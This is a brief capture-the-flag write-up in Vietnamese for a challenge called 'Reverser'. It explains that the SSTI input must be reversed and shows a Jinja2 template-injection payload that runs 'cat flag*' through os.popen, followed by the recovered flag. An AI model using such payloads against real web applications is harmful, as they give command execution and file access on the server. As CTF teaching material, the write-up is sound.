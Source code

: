 # Reverser

Đảo ngược chuỗi kí tự ssti lại

`{{lipsum.__globals__['os'].popen('cat flag*').read()}}` -> `}})(daer.)'*galf tac'(nepop.]'so'[__slabolg__.muspil{{`

=> hope{cant_misuse_templates}